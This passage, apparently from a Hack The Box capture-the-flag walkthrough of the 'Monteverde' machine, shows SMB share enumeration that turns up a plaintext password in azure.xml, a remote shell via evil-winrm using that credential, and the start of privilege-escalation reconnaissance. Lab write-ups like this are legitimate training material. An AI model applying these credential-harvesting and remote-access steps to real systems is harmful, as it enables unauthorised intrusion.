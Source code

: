     The share 'azure_uploads' is empty, however looking in 'users$' we find an interesting .xml containing a password.
      root@p3:/opt/htb/machines/monteverde# smbclient \\\\10.10.10.172\\users$ -U SABatchJobs
        smb: \> dir
          .                                   D        0  Fri Jan  3 14:12:48 2020
          ..                                  D        0  Fri Jan  3 14:12:48 2020
          dgalanos                            D        0  Fri Jan  3 14:12:30 2020
          mhope                               D        0  Fri Jan  3 14:41:18 2020
          roleary                             D        0  Fri Jan  3 14:10:30 2020
          smorgan                             D        0  Fri Jan  3 14:10:24 2020
        smb: \> cd mhope
        smb: \mhope\> dir
          .                                   D        0  Fri Jan  3 14:41:18 2020
          ..                                  D        0  Fri Jan  3 14:41:18 2020
          azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

      root@p3:/opt/htb/machines/monteverde# cat azure.xml
        ..
          <S N="Password">4n0therD4y@n0th3r$</S>
        ..

    NOTE: Credentials - mhope:4n0therD4y@n0th3r$


5. Login with evil-winrm using found credentials for mhope, grab user.txt.
    root@p3:/opt/htb/machines/monteverde# evil-winrm -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r$
      *Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
        4961****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking at the directory of mhope we find the dir .Azure hinting that this privesc should/have somnething to do with Azure.
   We find a TokenCache containing lots of information that might be valuable. Also something called 'Microsoft Azure AD Sync'
   in C:\Program Files\.

   Enumerating the box further tells us that it's running sqlserver locally (tcp 1433), this sounds like a promising point to start.

   *Evil-WinRM* PS C:\Users\Administrator\Documents> netstat -aon
     Active Connections
       Proto  Local Address          Foreign Address        State           PID
       ..
       TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3512
       ..
       TCP    10.10.10.172:1433      10.10.10.172:49720     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49721     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49722     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49723     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49724     ESTABLISHED     3512
